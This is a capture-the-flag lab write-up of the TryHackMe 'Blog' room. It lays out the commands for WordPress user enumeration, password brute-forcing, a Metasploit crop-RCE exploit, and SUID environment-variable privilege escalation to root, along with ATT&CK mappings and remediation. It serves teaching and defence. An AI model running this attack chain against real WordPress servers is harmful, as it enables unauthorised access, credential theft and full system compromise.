



# Blog | Penetration Testing 

**Category:** Web Application Exploitation (WordPress) → Linux Privilege Escalation
**Platform:** TryHackMe
**Difficulty:** Medium
**Skills Demonstrated:** Nmap Scanning, Virtual Host Enumeration, WPScan (User/Plugin Enumeration & Credential Brute-Forcing), WordPress RCE Exploitation (Metasploit), Post-Exploitation File Recovery, SUID Binary Abuse, Reverse Engineering (Ghidra), Environment Variable Manipulation for Privilege Escalation


---

## 1. Scenario Overview

The target is a Linux host running a **WordPress 5.0** blog. The attack chain progresses through:

1. **Network scanning** to identify exposed services (SSH, HTTP, SMB).
2. **Virtual host enumeration**, requiring a manual `/etc/hosts` entry to properly resolve and enumerate the web application.
3. **WPScan enumeration** to extract valid WordPress usernames.
4. **Credential brute-forcing** via WPScan against the extracted usernames, recovering valid credentials.
5. **Exploitation** of a known WordPress 5.0 Remote Code Execution vulnerability (image/crop-based RCE) via Metasploit, yielding a `www-data` shell.
6. **Post-exploitation enumeration**, recovering a PDF document hinting at a "Rubber Ducky Inc." lead (a clue toward the final flag location).
7. **Privilege escalation** via a custom SUID binary (`checker`), reverse-engineered in Ghidra to reveal an environment-variable-based authorization bypass, ultimately yielding a root shell.

---

## 2. Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Network/service scanning |
| WPScan | WordPress enumeration (users, plugins) and credential brute-forcing |
| Metasploit Framework | Exploitation of the WordPress RCE vulnerability |
| Meterpreter | Post-exploitation shell, file transfer (PDF, SUID binary) |
| Ghidra | Static reverse engineering of the `checker` SUID binary |
| Python (`pty` module) | TTY shell upgrade |

---

## 3. Step-by-Step Walkthrough

### Network Scanning

An initial Nmap scan was run with default scripts and version detection enabled:
```bash
nmap -sV -sC <TARGET_IP>
```

**Result:** Three services were identified — **SSH (22)**, **HTTP (80)**, and **SMB (139, 445)**.

### Enumeration

With no available SSH credentials, enumeration focused on the HTTP service. Direct enumeration of the web page required a virtual host entry, since the application relied on host-header-based routing:
```bash
nano /etc/hosts
# <TARGET_IP> blog.thm
```

Browsing to `http://blog.thm/` revealed a simple blog running on **WordPress**.

**Q: What CMS was Billy using?**
**A: WordPress**

WPScan was then run in enumeration mode to extract users and plugins:
```bash
wpscan --url http://blog.thm/ -e
```

**Result:** Several usernames/display names were identified: `kwheel`, `bjoel`, `Karen Wheeler`, `Billy Joel`.


> *WPScan enumeration output showing the extracted WordPress usernames (`kwheel`, `bjoel`, `Karen Wheeler`, `Billy Joel`).*

A custom username dictionary (`user.txt`) was built from these findings and used to brute-force credentials via WPScan's XML-RPC-based login:
```bash
nano user.txt
# kwheel
# bjoel
# Karen Wheeler
# Billy Joel

wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U user.txt
```

**Result:** Valid credentials were recovered for the user `kwheel`, with the password **`cutiepie1`**.

### Exploitation

WordPress 5.0 is affected by a known **image crop / Remote Code Execution** vulnerability. This was exploited via Metasploit using the recovered credentials:
```bash
use exploit/multi/http/wp_crop_rce
set rhosts <TARGET_IP>
set username kwheel
set password cutiepie1
run
```


> *Metasploit console showing the `wp_crop_rce` module configured with `rhosts`, `username`, and `password`, followed by successful exploitation and Meterpreter session establishment.*

**Q: What version of the above CMS was being used?**
**A: 5.0**

The resulting Meterpreter session was dropped to a system shell and upgraded to a full TTY:
```bash
shell
python -c 'import pty; pty.spawn("/bin/bash")'
id
```

**Result:** A shell as the **`www-data`** user was obtained.

#### Enumerating Documents (User Flag Lead)

Navigating to the home directory of `bjoel` revealed a decoy/fake `user.txt` file, alongside a genuinely interesting PDF document:
```bash
cd /home
ls
cd bjoel
ls
cat user.txt
```

The PDF was pulled back to the local attacking machine via Meterpreter's file transfer capability:
```bash
download /home/bjoel/Billy_Joel_Termination_May20-2020.pdf
```

**Analysis:** The document revealed that Billy Joel had been terminated from **"Rubber Ducky Inc."** — a subtle in-game clue suggesting the real user flag would later be found somewhere referencing a USB/removable-media context (i.e., a "rubber ducky" — a common reference to USB-based attack tools/media).

### Privilege Escalation

Back on the target shell, SUID binaries were enumerated to identify potential privilege escalation vectors:
```bash
find / -perm -u=s -type f 2>/dev/null
```


> *Output of the SUID binary enumeration command, highlighting the custom `/usr/sbin/checker` binary among standard system SUID files.*

**Result:** A non-standard SUID binary, **`/usr/sbin/checker`**, was identified — a strong indicator of an intentionally placed privilege escalation vector.

Running the binary directly returned an "Not an Admin" message, indicating some form of internal authorization check:
```bash
/usr/sbin/checker
```

The binary was transferred to the local Kali machine for static analysis:
```bash
download /usr/sbin/checker
```

#### Reverse Engineering with Ghidra

The binary was loaded into **Ghidra** and analyzed. Decompilation of the `main` function revealed that the program:
1. Reads the value of an environment variable named **`admin`**.
2. If unset, prints `"Not an Admin"` and exits.
3. If **set to any non-empty string value**, it spawns an interactive Bash shell — critically, inheriting the **SUID root** privilege of the binary itself, meaning the spawned shell runs as **root** regardless of the actual calling user.

This is a classic **insecure environment-variable-based authorization check** vulnerability: the binary trusts an easily attacker-controlled environment variable as its sole gate for granting root access.

#### Exploiting the Environment Variable Check

The `admin` environment variable was set to an arbitrary non-empty string and the binary re-executed:
```bash
export admin=pavan
/usr/sbin/checker
```

**Result:** A **root shell** was obtained.

#### Getting and Reading the Root Flag

```bash
cat /root/root.txt
```

**Result:** Root flag successfully captured (redacted per source convention).

#### Locating the (Real) User Flag

With root access, a system-wide search was performed to locate the genuine `user.txt`, resolving the earlier "Rubber Ducky Inc." clue:
```bash
find / -name "user.txt"
cat /media/usb/user.txt
```

**Q: Where was user.txt found?**
**A: `/media/usb/`**

**Result:** User flag successfully captured from the simulated USB mount point (redacted per source convention) — a payoff for the earlier PDF clue referencing "Rubber Ducky Inc."

---

## 4. Attack Chain Summary

```
Nmap Scan (SSH / HTTP / SMB)
        │
        ▼
Virtual Host Discovery (blog.thm) → WordPress CMS identified
        │
        ▼
WPScan User Enumeration (kwheel, bjoel, Karen Wheeler, Billy Joel)
        │
        ▼
WPScan Credential Brute-Force → kwheel : cutiepie1
        │
        ▼
WordPress 5.0 Crop/Image RCE (Metasploit) → www-data shell
        │
        ▼
Post-Exploitation Recovery → PDF clue ("Rubber Ducky Inc.")
        │
        ▼
SUID Enumeration → /usr/sbin/checker discovered
        │
        ▼
Ghidra Reverse Engineering → env-var (`admin`) authorization bypass identified
        │
        ▼
export admin=pavan && /usr/sbin/checker → Root Shell
        │
        ▼
root.txt captured + user.txt located at /media/usb/ (clue resolved)
```

---

## 5. MITRE ATT&CK Mapping

| Step / Finding | Tactic | Technique ID | Technique Name | Justification |
|---|---|---|---|---|
| Nmap service/version scan | Reconnaissance | **T1595.002** | Active Scanning: Vulnerability Scanning | Nmap's `-sV -sC` scan was used to fingerprint exposed services and versions on the target. |
| Virtual host discovery via `/etc/hosts` | Reconnaissance | **T1590.005** | Gather Victim Network Information: IP Addresses | Manually resolving the host header allowed proper enumeration of the web application behind name-based virtual hosting. |
| WPScan username enumeration | Discovery | **T1087.001** | Account Discovery: Local Account | WordPress usernames were enumerated via WPScan's built-in enumeration modules. |
| WPScan brute-force via XML-RPC | Credential Access | **T1110.001 / T1110.003** | Brute Force: Password Guessing / Password Spraying | WPScan attempted a wordlist-based credential brute-force against the identified usernames via the XML-RPC API. |
| Exploitation of WordPress 5.0 Crop RCE | Initial Access | **T1190** | Exploit Public-Facing Application | A known, versioned vulnerability in the publicly accessible WordPress CMS was exploited to achieve remote code execution. |
| Meterpreter shell → TTY upgrade | Execution | **T1059.006 / T1059.004** | Command and Scripting Interpreter: Python / Unix Shell | A Python one-liner was used to spawn a fully interactive Bash TTY shell from the initial limited shell. |
| PDF file recovery via Meterpreter `download` | Collection | **T1005** | Data from Local System | A document containing contextual/organizational information was retrieved from the compromised host for analysis. |
| SUID binary enumeration (`find -perm -u=s`) | Discovery / Privilege Escalation | **T1548.001** | Abuse Elevation Control Mechanism: Setuid and Setgid | The attacker searched for SUID/SGID binaries as a standard Linux privilege escalation reconnaissance step. |
| Reverse engineering `checker` binary in Ghidra | Discovery | **T1518** | Software Discovery | Static analysis was performed to understand the binary's internal authorization logic prior to exploitation. |
| Exploiting the `admin` environment variable check | Privilege Escalation | **T1574.007 / T1548.001** | Hijack Execution Flow: Path Interception by Unqualified Path *(conceptually adjacent)* / Abuse Elevation Control Mechanism: Setuid and Setgid | A SUID root binary's flawed trust in a user-controllable environment variable (`admin`) was abused to spawn a root-privileged shell. |
| Flag/file collection as root | Collection | **T1005** | Data from Local System | Both `root.txt` and the genuine `user.txt` were retrieved directly from the local filesystem post-privilege-escalation. |

---

## 6. OWASP Applicability

Unlike the CTI/DFIR-focused write-ups in this portfolio, this room's **initial access vector is a web application (WordPress)**, so the **OWASP Top 10** is directly relevant here and is included:

| OWASP Top 10 (2021) Category | Relevance to this Engagement |
|---|---|
| **A01:2021 – Broken Access Control** | The final privilege escalation vector (`checker` binary) is fundamentally a broken access control flaw — authorization was determined solely by the *presence* of an attacker-controllable environment variable rather than any legitimate identity or permission check. |
| **A05:2021 – Security Misconfiguration** | Running an outdated **WordPress 5.0** installation with a known, unpatched RCE vulnerability is a textbook security misconfiguration/patch-management failure. |
| **A07:2021 – Identification and Authentication Failures** | The `kwheel` account used a weak, easily brute-forced password (`cutiepie1`), and the CMS did not appear to enforce account lockout or rate-limiting against XML-RPC-based login attempts. |
| **A06:2021 – Vulnerable and Outdated Components** | The exploited RCE vulnerability stems directly from running a vulnerable, outdated version of the WordPress core/plugin ecosystem rather than a current, patched release. |

---

## 7. Key Findings & Risk Summary

| Weakness | Impact | Recommendation |
|---|---|---|
| Outdated WordPress 5.0 with known RCE | Full remote code execution as the web service user (`www-data`) | Keep WordPress core, themes, and plugins fully patched; monitor CVE feeds for the specific stack in use |
| Weak, brute-forceable user password (`cutiepie1`) | Enabled successful credential brute-forcing via WPScan/XML-RPC | Enforce strong password policies; disable or rate-limit XML-RPC if unused; enable MFA where supported |
| No apparent account lockout on WordPress login/XML-RPC | Allowed unrestricted brute-force attempts | Implement login attempt throttling/lockout (e.g., via a security plugin or WAF rule) |
| Custom SUID binary trusting an environment variable for authorization | Allowed trivial privilege escalation from `www-data` to `root` | Never gate privileged logic behind user-controllable environment variables; use proper OS-level authorization (e.g., PAM, explicit UID checks) |
| Sensitive organizational document (PDF) accessible to a compromised low-privilege account | Minor information disclosure aiding attacker reconnaissance | Apply least-privilege file permissions; avoid storing sensitive HR/organizational documents in user-accessible home directories |

---

## 8. Key Takeaways

- **Virtual host misconfiguration/dependency is a common enumeration blocker** — always test with a manually set `Host` header or `/etc/hosts` entry before concluding a web app can't be reached.
- **WPScan remains a highly effective tool** for both passive enumeration (users, plugins, themes) and active credential attacks against WordPress deployments.
- **Outdated CMS versions are a persistent, high-value attack surface** — WordPress 5.0's crop/image RCE is a great example of how a single unpatched component can lead to full remote code execution.
- **SUID binaries that base authorization decisions on environment variables are inherently insecure**, since environment variables are entirely within the calling user's control — this is a recurring privilege escalation pattern worth specifically checking for in CTFs and real assessments alike.
- **In-game/environment "clues" (like the PDF referencing Rubber Ducky Inc.) mirror real-world OSINT/context gathering** — post-exploitation document recovery can reveal organizational context useful well beyond the immediate technical objective.

---

## 9. References

- TryHackMe — *Blog* room (created by Nameless0ne).
- MITRE ATT&CK® Framework — [attack.mitre.org](https://attack.mitre.org)
- OWASP Top 10 (2021) — [owasp.org/Top10](https://owasp.org/Top10/)
- WPScan — [wpscan.com](https://wpscan.com)
- Ghidra — [ghidra-sre.org](https://ghidra-sre.org)
